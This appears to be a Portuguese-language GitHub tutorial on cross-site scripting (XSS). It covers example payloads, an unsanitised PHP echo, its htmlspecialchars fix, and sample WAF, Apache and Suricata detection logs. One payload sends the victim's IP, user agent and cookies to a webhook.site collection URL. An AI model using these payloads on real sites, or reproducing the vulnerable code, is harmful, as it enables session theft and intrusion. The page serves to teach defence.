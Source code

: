## XSS (Cross-Site Scripting)

- **Link para o Video** https://youtu.be/oB1owyOmlS4

**Como ocorre o ataque?**

**Por que o ataque acontece?**

**Como corrigir?**

**Como monitorar?**

------------------------------------------------------------

- **Como ocorre o ataque?**

O ataque XSS acontece quando um usuário mau intencionado consegue injetar código malicioso (normalmente JavaScript) em uma página da web, explorando uma vulnerabilidade onde a entrada do usuário não é devidamente tratada ou sanitizada. Essa falha permite que o código seja executado no navegador de outras pessoas quando elas visitam a página infectada, levando à violação de segurança.

**Exemplos de códigos maliciosos**

Capturar user agent:
```js
<script>alert(navigator.userAgent);</script>
```

Capturar IP publico:
```js
<script>fetch('https://api.ipify.org?format=json').then(response => response.json()).then(data => alert(data.ip)).catch(error => alert('Error:', error));</script>
```

Capturar cookie:
```js
<script>alert(document.cookie);</script>
```

Redirecionar pagina:
```js
<script>
window.location.href = "http://www.google.com";
<script>
```

Captura tudo e mandar para o servidor do atacante:

```js
<script>
fetch('https://api.ipify.org?format=json')
  .then(response => response.json())
  .then(data => {
    let ip = data.ip;
    let userAgent = navigator.userAgent;
    let cookie = document.cookie;
    fetch(`https://webhook.site/5b0d3ce1-235a-42cb-8263-99b9a5667e2d?ip=${ip}&userAgent=${userAgent}&cookie=${cookie}`);
  })
  .catch(error => console.log('Error:', error));
</script>
```


- **Por que o ataque acontece?**

O ataque ocorre devido à ausência de sanitização ou filtragem adequada das entradas de dados no código. Muitas vezes, desenvolvedores não preveem ou desconsideram a possibilidade de usuários inserirem código malicioso nas entradas de dados, o que pode resultar em um vetor de ataque XSS.

Codigo vulnerável sem sanitização ou filtragem:

```php

if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
   echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';

}
```

- **Como corrigir?**

A prevenção de ataques XSS implica na implementação de práticas de segurança na codificação, que incluem a sanitização de todas as entradas de dados. As entradas devem ser tratadas como não confiáveis por padrão. Métodos de escape, codificação ou uso de listas de permissões podem ser usados para remover ou neutralizar possíveis códigos maliciosos. 

```php

if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
   echo '<pre>Hello ' . htmlspecialchars($_GET[ 'name' ]) . '</pre>';
}
```

- **Como monitorar?**

Para monitorar possíveis ataques XSS, é possível monitorar os logs do servidor web para quaisquer atividades suspeitas, como requisições que contenham scripts ou caracteres indesejáveis. Ferramentas como Web Application Firewall (WAF), Sistemas de Detecção de Intrusão (IDS) ou Sistemas de Prevenção de Intrusão (IPS) também podem ser configurados para monitorar o tráfego de rede e gerar alertas quando detectarem padrões de ataques XSS. Além disso, testes regulares de penetração e varreduras de vulnerabilidades podem ajudar a identificar pontos fracos que poderiam ser explorados em ataques XSS.

Exemplo de log CloudFlare:

```JSON
{
  "timestamp": 1629537263711,
  "scheme": "https",
  "host": "www.site-vul.xyz",
  "client": {
    "ip": "192.0.2.1",
    "browser": "Chrome 91.0.4472",
    "deviceType": "desktop"
  },
  "request": {
    "method": "GET",
    "uri": "/form.php?param=<script>alert('xss')</script>",
    "headers": {
      "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
      "cookie": "cookie_informacao",
      "referer": "http://malicious.xyz",
      "origin": "http://malicious.xyz"
    }
  },
  "response": {
    "status": 403,
    "headers": {
      "cf-waf": "cloudflare",
      "cf-ray": "68ae1267cea82927-SEA",
      "content-length": "571"
    }
  },
  "ruleTriggered": {
    "id": "100601",
    "description": "Cross Site Scripting (XSS) Attempt Detected",
    "action": "block"
  }
}
```

Log Apache:

```apache
192.0.2.1 - - [31/Jul/2023:07:24:32 -0300] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 304 249 "http://localhost/DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22XSS%22%29%3B%3C%2Fscript%3E" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
```

Log do Suricata:
```json
{
  "timestamp": "2023-07-31T14:42:15.145279+0000",
  "flow_id": 1532726509421548,
  "in_iface": "eth0",
  "event_type": "alert",
  "src_ip": "192.0.2.1",
  "src_port": 51820,
  "dest_ip": "203.0.113.7",
  "dest_port": 80,
  "proto": "TCP",
  "http": {
    "hostname": "www.site-vul.xyz",
    "url": "/form.php",
    "http_user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "http_method": "GET",
    "protocol": "HTTP/1.1",
    "status": 403,
    "length": 571
  },
  "alert": {
    "action": "blocked",
    "gid": 1,
    "signature_id": 1,
    "rev": 1,
    "signature": "ET WEB_SPECIFIC_APPS Cross Site Scripting Attempt",
    "category": "Attempted User Privilege Gain",
    "severity": 1
  },
  "payload": "<script>alert('xss');</script>",
  "payload_printable": "<script>alert('xss');</script>",
  "stream": 0
}
```
